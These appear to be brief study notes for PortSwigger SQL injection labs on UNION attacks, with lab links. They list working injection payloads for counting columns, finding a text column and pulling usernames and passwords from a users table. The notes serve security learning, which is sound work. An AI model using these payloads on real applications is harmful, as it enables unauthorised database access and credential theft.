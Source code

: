 # SQL injection

## SQL injection UNION attack, determining the number of columns returned by the query

 ```sql
    ' ORDER BY 3--
 ```

 ```sql
    ' UNION SELECT NULL,NULL,NULL--
 ```

 [Challenge](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

 ## Finding columns with a useful data type in an SQL injection UNION attack

 Identify string collumn

```sql
    ' UNION SELECT NULL,NULL,'a',NULL--
```

[Challenge](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

## SQL injection UNION attack, retrieving data from other tables

```sql
    ' UNION SELECT username, password FROM users-- 
```